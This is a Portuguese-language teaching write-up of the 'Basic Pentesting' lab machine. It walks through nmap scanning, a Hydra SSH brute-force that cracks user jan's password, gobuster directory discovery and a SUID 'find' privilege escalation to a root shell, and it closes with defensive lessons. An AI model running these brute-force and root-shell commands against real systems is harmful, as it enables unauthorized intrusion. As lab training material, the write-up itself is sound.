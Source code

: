 Basic Pentesting (Easy) - Full Report (Versão Didática)

Objetivo:
Aprender técnicas básicas de hacking em uma máquina Linux vulnerável, descobrindo senhas fracas e explorando permissões incorretas.

Ferramentas Utilizadas
Nmap: Scanner de portas (descobre portas abertas).
Hydra: Quebrador de senhas automático.
Gobuster: Descobridor de pastas ocultas em sites.


Passo a Passo Detalhado
🔍 1. Enumeração Inicial (Nmap)

Comando:
nmap -sV -p- 10.10.10.10 -oN scan.txt

Explicação:
nmap: Ferramenta que descobre portas abertas em máquinas.
-sV: Detecta versões dos serviços.
-p-: Verifica todas as 65.535 portas.
-oN scan.txt: Salva o resultado em um arquivo.

Saída importante:
22/tcp open  ssh     OpenSSH 7.2p2  ← Porta do SSH (acesso remoto)
80/tcp open  http    Apache 2.4.18 ← Servidor web (site)

Por que importa?
Mostra que podemos tentar:
Quebrar senha do SSH (porta 22).
Explorar o site (porta 80).

🔑 2. Quebra de Senha SSH (Hydra)
Comando:
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 -t 4 -vV
Explicação:
hydra: Ferramenta de brute-force.
-l jan: Tenta o usuário "jan".
-P rockyou.txt: Usa a wordlist "rockyou.txt" (lista de senhas comuns).
ssh://10.10.10.10: Alvo (serviço SSH na máquina).
-t 4: Usa 4 threads (acelera o processo).

Resultado:
[22][ssh] login: jan   password: armando  ← Senha encontrada!
O que aprendemos?
O usuário jan usou uma senha fraca (armando), fácil de quebrar.

🌐 3. Exploração Web (Gobuster)
Comando:
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirb/common.txt -x php,html

Explicação:
gobuster dir: Procura diretórios/pastas no site.
-u http://...: URL alvo.
-w common.txt: Wordlist com nomes de pastas comuns.
-x php,html: Procura arquivos .php e .html.

Saída crítica:
/secret               (Status: 301) ← Pasta descoberta!
O que fazer?:
Acessar http://10.10.10.10/secret e baixar o arquivo passwd.txt (que continha senhas vazadas).

⬆️ 4. Escalação de Privilégios (SUID)
Comando:
find / -perm -4000 2>/dev/null

Explicação:
find /: Procura em todo o sistema.
-perm -4000: Arquivos com permissão SUID (permite execução como root).
2>/dev/null: Ignora erros.

Resultado:
/usr/bin/find ← Binário vulnerável!

Exploração:
/usr/bin/find . -exec /bin/sh \; -quit

Como funciona?
O find tem permissão de root (SUID).
-exec /bin/sh \;: Executa um shell como root.
Resultado: Obtemos acesso root!

Lições Aprendidas
Senhas fracas: São o ponto mais fácil de ataque (use senhas complexas!).
Pastas expostas: Sites devem restringir acesso a diretórios sensíveis.
Permissões SUID: Binários com SUID podem ser abusados para virar root.
